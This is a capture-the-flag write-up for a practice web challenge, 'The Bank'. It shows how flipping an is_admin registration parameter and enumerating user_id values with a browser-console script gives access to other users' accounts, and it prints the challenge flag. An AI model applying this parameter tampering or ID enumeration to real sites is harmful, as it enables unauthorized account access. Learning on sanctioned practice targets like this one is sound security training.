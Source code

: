 # WebSecDojo.com - The Bank
## My first post :)
### Prerequisites
<ul>
  <li>HTML and Javascript experience.</li>
  <li>Basic knowledge of HTTP requests and API endpoints.</li>
  <li>Developer Panel (I recommend using firefox) or similar software that enables sending web requests.</li>
</ul>
### Exploring the website
  After entering the challenge I was in `https://websecdojo.com/thebank/index.php`.<br/>
  Since I didn't have an account I thought it'd be better to attempt to create one so I clicked `Don't have an account? Register here`.
### Trying to register
  First because I know it's a CTF challenge focused on HTTP requests I opened the network tab.<br/>
  Entered fabricated data and submitted the web-form.
  Found a `POST` request to this URL: `https://websecdojo.com/thebank/register.php`.
  The request's had a parameter named `is_admin` the was set to `0`. When changed to `1`, resending the request will result in a `GET` request to the URL: `https://websecdojo.com/thebank/dashboard.php`.
### The dashboard
  Go to `https://websecdojo.com/thebank/dashboard.php` in your browser.
  While the network tab is open try to fill out the form, the request returns failure as response.
  We can see in the request that in the URL there's a parameter named `user_id`.
  Going through the dashboard's HTML I found the function that submits the form.
### Examining the form submission
Examine this simple function:
```js
        function handleTransfer(event) {
            event.preventDefault();
            
            const form = document.getElementById('transferForm');
            const formData = new FormData(form);
            
            // Get user_id from URL or default to 0
            const urlParams = new URLSearchParams(window.location.search);
            const userId = urlParams.get('user_id') || '0';
            
            // Add user_id to formData
            formData.append('user_id', userId);
            
            fetch('api.php?user_id=' + userId, {
                method: 'POST',
                body: formData
            })
            .then(response => response.json())
            .then(data => {
                const messageDiv = document.getElementById('transferMessage');
                if (data.success) {
                    messageDiv.className = 'alert alert-success mt-3';
                    messageDiv.textContent = 'Transfer successful!';
                    form.reset();
                } else {
                    messageDiv.className = 'alert alert-danger mt-3';
                    messageDiv.textContent = data.message || 'Transfer failed. Please try again.';
                }
            })
            .catch(error => {
                const messageDiv = document.getElementById('transferMessage');
                messageDiv.className = 'alert alert-danger mt-3';
                messageDiv.textContent = 'An error occurred. Please try again.';
                console.error('Error:', error);
            });
            
            return false;
        }
```
        
Basically, the function checks the URL for parameters, if non found the `user_id` will be set as `0`.
### Trying to switch into a user that has funds
I added `?user_id=0` to the URL resulting in this: `https://websecdojo.com/thebank/dashboard.php?user_id=0`.
Now the user's named `User Bobbetta` instead of `Admin` and yet still has no balance.
Trying to fill out the form again and submitting it results in failure response.
Trying different IDs return the same user.
Assuming the IDs can be enumerated i wrote this script (ChatGPT wrote it for me ;)):
```js
let id = 0;
const maxAttempts = 5000; // adjust as needed
const delay = 200; // ms delay between requests to avoid hammering the server

function checkNextId() {
    if (id > maxAttempts) {
        console.log("Reached maximum attempts.");
        return;
    }

    fetch(`https://websecdojo.com/thebank/dashboard.php?user_id=${id}`, {
        credentials: 'include' // keep session cookies
    })
    .then(res => res.text())
    .then(html => {
        // Look for the admin HTML marker
        if (html.includes('<span id="username">Admin</span>')) {
            console.log(`🎯 Found Admin at user_id=${id}`);
            console.log(`URL: https://websecdojo.com/thebank/dashboard.php?user_id=${id}`);
            // Optionally open in new tab:
            window.open(`https://websecdojo.com/thebank/dashboard.php?user_id=${id}`, '_blank');
        } else if (!html.includes('User Bobbetta')) {
            console.log(`✅ Found non-Bobbetta user at id=${id}`);
        } else {
            console.log(`⛔ Skipped id=${id}`);
        }
    })
    .catch(err => {
        console.warn(`Error at id=${id}:`, err);
    })
    .finally(() => {
        id++;
        setTimeout(checkNextId, delay);
    });
}

checkNextId();

```
Pasted it in the console that's in the Developer Panel and found two users with IDs `10` and `11`.

### Switching into user that has funds
I entered this URL: `https://websecdojo.com/thebank/dashboard.php?user_id=10`
Got into a user named `User John Doe` with `$10000`.
Filled out the form with fabricated information.
The website showed failure yet the request returned success.

### Getting the flag
This one took me a while...
Often most people overlook certain parts of HTTP requests. In this Case it was the `Response Headers`.
Looking there you will find the flag header: `x-flag: flag#Th@tWas3asyN0?`

### Conclusions
Examine the request thoroughly, you can use ChatGPT for this if you're lazy.

### Important remarks
I want to thank Avi who created the CTF challnge and gave me the clue to the last part. I overlooked the Response Headers.
Check out his awesome Web CTFs website: https://websecdojo.com/


